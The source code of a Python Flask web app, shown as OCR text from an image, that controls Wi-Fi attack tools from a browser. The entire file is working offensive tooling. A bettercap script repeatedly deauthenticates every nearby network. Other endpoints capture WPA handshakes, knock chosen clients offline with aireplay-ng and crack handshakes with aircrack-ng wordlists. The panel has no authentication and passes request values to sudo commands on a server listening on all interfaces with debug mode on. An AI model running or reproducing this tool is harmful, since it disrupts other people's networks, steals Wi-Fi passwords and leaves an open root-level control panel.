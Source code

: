 `#!/usr/bin/env python3 import os import subprocess import signal import sys import json import psutil from flask import Flask, render_template, request, jsonify from flask_socketio import SocketIO import threading import time app = Flask(__name__) socketio = SocketIO(app) # Globale Variablen processes = {} interfaces = [] current_network = None # Verzeichnisse erstellen os.makedirs('/home/pi/pentest_results', exist_ok=True) os.makedirs('/home/pi/pentest_scripts', exist_ok=True) def get_wireless_interfaces():     """Verfügbare WLAN-Interfaces ermitteln"""    result = subprocess.run(['iwconfig'], capture_output=True, text=True)    interfaces = []    for line in result.stdout.split('\n'):        if ' ESSID:' in line:            iface = line.split(' ')[0]            interfaces.append(iface)    return interfaces def set_monitor_mode(interface):     """Interface in den Monitor-Modus versetzen"""    subprocess.run(['sudo', 'ifconfig', interface, 'down'])    subprocess.run(['sudo', 'iwconfig', interface, 'mode', 'monitor'])    subprocess.run(['sudo', 'ifconfig', interface, 'up'])    return True def start_bettercap(interface):     """Bettercap mit dem angegebenen Interface starten"""    # Bettercap-Konfigurationsdatei erstellen    config = f""" set wifi.interface {interface} set events.stream.output /home/pi/pentest_results/bettercap-events.log set wifi.handshakes.file /home/pi/pentest_results/handshakes.pcap set ticker.commands wifi.deauth all; wifi.assoc all; set ticker.period 5 events.stream on ticker on wifi.recon on     """    with open('/home/pi/pentest_scripts/bettercap.cap', 'w') as f:        f.write(config)         # Bettercap starten    cmd = ['sudo', 'bettercap', '-iface', interface, '-caplet', '/home/pi/pentest_scripts/bettercap.cap']    proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)    processes['bettercap'] = proc    return True def start_airodump(interface, channel=None, bssid=None):     """Airodump-ng starten"""    cmd = ['sudo', 'airodump-ng']    if channel:        cmd.extend(['-c', str(channel)])    if bssid:        cmd.extend(['--bssid', bssid])    cmd.extend(['-w', '/home/pi/pentest_results/capture', interface])         proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)    processes['airodump'] = proc    return True def start_wireshark(interface):     """Wireshark starten"""    cmd = ['sudo', 'wireshark', '-i', interface, '-k']    proc = subprocess.Popen(cmd)    processes['wireshark'] = proc    return True def deauth_client(interface, ap_mac, client_mac):     """Deauthentifizierungsangriff starten"""    cmd = ['sudo', 'aireplay-ng', '-0', '1', '-a', ap_mac, '-c', client_mac, interface]    subprocess.run(cmd)    return True def crack_handshake(capture_file, wordlist):     """WPA-Handshake mit Aircrack-ng knacken"""    cmd = ['sudo', 'aircrack-ng', capture_file, '-w', wordlist]    proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)    processes['aircrack'] = proc    return True @app.route('/') def index():     """Hauptseite rendern"""    global interfaces    interfaces = get_wireless_interfaces()    return render_template('index.html', interfaces=interfaces) @app.route('/api/start_monitor', methods=['POST']) def api_start_monitor():     """API-Endpunkt zum Starten des Monitor-Modus"""    data = request.json    interface = data.get('interface')    if set_monitor_mode(interface):        return jsonify({'success': True})    return jsonify({'success': False, 'error': 'Failed to set monitor mode'}) @app.route('/api/start_tool', methods=['POST']) def api_start_tool():     """API-Endpunkt zum Starten eines Tools"""    data = request.json    tool = data.get('tool')    interface = data.get('interface')         if tool == 'bettercap':        success = start_bettercap(interface)    elif tool == 'airodump':        channel = data.get('channel')        bssid = data.get('bssid')        success = start_airodump(interface, channel, bssid)    elif tool == 'wireshark':        success = start_wireshark(interface)    else:        return jsonify({'success': False, 'error': 'Unknown tool'})         return jsonify({'success': success}) @app.route('/api/stop_tool', methods=['POST']) def api_stop_tool():     """API-Endpunkt zum Stoppen eines Tools"""    data = request.json    tool = data.get('tool')         if tool in processes:        processes[tool].terminate()        del processes[tool]        return jsonify({'success': True})    return jsonify({'success': False, 'error': 'Tool not running'}) @app.route('/api/deauth', methods=['POST']) def api_deauth():     """API-Endpunkt für Deauthentifizierungsangriff"""    data = request.json    interface = data.get('interface')    ap_mac = data.get('ap_mac')    client_mac = data.get('client_mac')         success = deauth_client(interface, ap_mac, client_mac)    return jsonify({'success': success}) @app.route('/api/crack', methods=['POST']) def api_crack():     """API-Endpunkt zum Starten des Passwort-Crackings"""    data = request.json    capture_file = data.get('capture_file')    wordlist = data.get('wordlist')         success = crack_handshake(capture_file, wordlist)    return jsonify({'success': success}) def cleanup():     """Alle laufenden Prozesse beenden"""    for name, proc in processes.items():        try:            proc.terminate()        except:            pass if __name__ == '__main__':     # Signal-Handler für sauberes Beenden    def signal_handler(sig, frame):        cleanup()        sys.exit(0)         signal.signal(signal.SIGINT, signal_handler)    signal.signal(signal.SIGTERM, signal_handler)         # Server starten    socketio.run(app, host='0.0.0.0', port=8080, debug=True)`

